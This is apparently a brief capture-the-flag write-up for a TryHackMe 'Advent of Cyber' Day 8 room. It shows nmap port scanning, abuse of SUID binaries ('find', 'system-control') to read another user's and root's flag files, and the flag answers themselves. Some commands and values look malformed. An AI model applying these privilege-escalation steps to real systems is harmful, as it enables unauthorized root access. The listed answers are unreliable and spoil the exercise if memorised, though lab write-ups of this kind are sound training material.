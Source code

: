 Advent of Cyber Day 8

===================================
undermouse | 7th of September, 2020
===================================

```bash
export IP=10.10.222.83
```

#1 	What port is SSH running on?

```bash
# Scanning all ports
nmap $IP -p-

```

```
65534
```


#2 	Find and run a file as igor. Read the file /home/igor/flag1.txt

```bash
find / -exec cat /home/igor/flag1.txt
```

```
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

#3 	Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

```bash
find / -user root -perm -4000 -exec ls -ldb {} 2>/dev/null \;
# Found system-control binary file.
system-control
```
Enter system command: `cat /root/flag2.txt`

```
THM{8c8211826239d849fa8d6df03749c3a2
```
	
